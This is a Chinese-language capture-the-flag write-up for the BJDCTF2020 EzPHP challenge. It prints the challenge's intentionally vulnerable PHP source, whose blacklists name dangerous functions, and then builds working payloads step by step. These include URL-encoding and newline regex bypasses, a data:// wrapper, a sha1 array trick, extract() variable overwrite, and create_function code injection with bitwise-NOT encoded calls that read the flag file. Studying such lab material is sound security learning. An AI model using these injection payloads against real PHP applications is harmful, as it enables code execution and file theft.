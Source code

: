 # \[BJDCTF2020]EzPHP

### \[BJDCTF2020]EzPHP

## 考点

* `$_SERVER` 获取HTTP传入参数的脆弱性
* `preg_match`脆弱性
* PHP伪协议bypass 字符串相同限制
* &#x20;create\_function创建匿名函数
* PHP7 取反bypass代码执行

## wp

F12给了提示，`base32`解码得到`1nD3x.php`

<div data-full-width="true">

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

</div>

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

访问得到源码

{% code overflow="wrap" lineNumbers="true" fullWidth="true" %}
```php
 <?php
highlight_file(__FILE__);
error_reporting(0); 

$file = "1nD3x.php";
$shana = $_GET['shana'];
$passwd = $_GET['passwd'];
$arg = '';
$code = '';

echo "<br /><font color=red><B>This is a very simple challenge and if you solve it I will give you a flag. Good Luck!</B><br></font>";

if($_SERVER) { 
    if (
        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}

if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');

if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 

if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");


if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}

if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} ?>
```
{% endcode %}

<mark style="background-color:red;">第一个</mark>`preg_match`在第15行

`$_SERVER['QUERY_STRING']`返回请求的参数和内容，访问`http://ip:port/1nD3x.php?shana=1&passwd=2`会返回`shana=1&passwd=2`，请求的参数有黑名单

<mark style="background-color:blue;">绕过</mark>`$_SERVER['QUERY_STRING']`不会对传入键值对进行解码，可以用URL编码绕过

<mark style="background-color:red;">第二个</mark>`preg_match`在第20行

GET请求的file参数不包含http或https

<mark style="background-color:red;">第三个</mark>`preg_match`在第21行

GET请求的debu参数必须是aqua\_is\_cute且不是aqua\_is\_cute

<mark style="background-color:blue;">绕过</mark>`preg_match`在非`/s`模式下，会忽略末尾的%0a，所以末尾加上%0a即可

`file=padding&debu=aqua_is_cute`

`%66%69%6c%65=%70%61%64%64%69%6e%67&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a`

<mark style="background-color:red;">第四个</mark>`preg_match`在第29行

$\_REQUEST获取所有GET和POST传入的参数和值，并以数组形式返回。

比如POST请求`http://ip:port/?a=1&d=4 POST b=2`会返回`array(3) { 'a' => string(1) "1" 'd' => string(1) "4" 'b' => string(1) "2" }`要求请求的值不含有英文字符

<mark style="background-color:blue;">绕过</mark>$\_REQUEST获取的参数默认POST优先级大于GET，所以POST再传入`file=1&debu=2`



<mark style="background-color:red;">第34行</mark>`if`语句要求`file_get_contents($file)`的内容必须为`debu_debu_aqua`

<mark style="background-color:blue;">绕过</mark>这个有两种方式绕过，一个是`php://input` 加POST `debu_debu_aqua` ，很明显不行

另一个就是`file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute`

%66%69%6c%65=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a



<mark style="background-color:red;">第38行</mark>`if`语句要求传入的shana和passwd值不同且sha1相同

<mark style="background-color:blue;">绕过</mark>用数组绕过

`file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute&passwd[]=1&shana[]=2`

`%66%69%6c%65=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%70%61%73%73%77%64[]=%31&%73%68%61%6e%61[]=%32`

这里不需要再POST参数，因为GET传的是数组，<mark style="background-color:red;">第四个</mark>`preg_match`的$value也是个数组，`preg_match`遇到数组会报错

然后`extract($_GET["flag"]);`存在变量覆盖



<mark style="background-color:red;">第五个</mark>`preg_match`在第45行 i不区分大小写 s视为单行，匹配换行符 D让$总是匹配字符串的末尾

$arg有黑名单，$code不能由纯英文数字组成，必须形如var\_dump print\_r

这里使用变量覆盖对$code和$arg赋值

```
$code('', $arg);
```

这种形式就是create\_function()创建匿名函数，它会创建一个函数名为`\000lambda_(count(anonymous_functions)++)`，如`\000lambda_1`，的匿名函数，第一个参数为匿名函数的参数，第二个函数为代码

```php
create_function('$a,$b', $arg)

eval(
\000lambda_1($a,$b){
    $arg
}
)
```

$arg的黑名单有pi \* sess head 根据<mark style="background-color:purple;">无参RCE</mark>的思路能用的只剩get\_defined\_vars()

根据代码执行还可以用取反

所以在本题就是code=create\_function  arg=}var\_dump(get\_defined\_vars());//

或者arg=}(\~%8F%97%8F%96%91%99%90)();//

```
eval(
\000lambda_1(){
    }var_dump(get_defined_vars());//
}
)
```

`file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute&passwd[]=1&shana[]=2&flag[code]=create_function&flag[arg]=}var_dump(get_defined_vars());//`

`%66%69%6c%65=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%70%61%73%73%77%64[]=%31&%73%68%61%6e%61[]=%32&%66%6c%61%67[%63%6f%64%65]=create_function&%66%6c%61%67[%61%72%67]=}var_dump(get_defined_vars());//`

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

读取rea1fl4g.php

`readfile('rea1fl4g.php')`取反

{% code overflow="wrap" lineNumbers="true" %}
```
http://31e9b523-a95b-4c3a-8bd6-0a322f1d383f.node4.buuoj.cn:81/1nD3x.php?%66%69%6c%65=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%70%61%73%73%77%64[]=%31&%73%68%61%6e%61[]=%32&%66%6c%61%67[%63%6f%64%65]=create_function&%66%6c%61%67[%61%72%67]=}(~%8D%9A%9E%9B%99%96%93%9A)((~%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F));//

file=1&debu=2
```
{% endcode %}

## 小结

1. `$_SERVER['QUERY_STRING']`不会对传入键值对进行解码，可以用URL编码绕过
2. create\_function()创建匿名函数，它会创建一个函数名为`\000lambda_(count(anonymous_functions)++)`，如`\000lambda_1`，的匿名函数，第一个参数为匿名函数的参数，第二个函数为代码
3.  伪协议绕过字符串限制，一个是`php://input` 加POST `debu_debu_aqua` ，

    另一个就是`file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute`
4. `preg_match`在非`/s`模式下，会忽略末尾的%0a
5. `preg_match`传入数组会报错

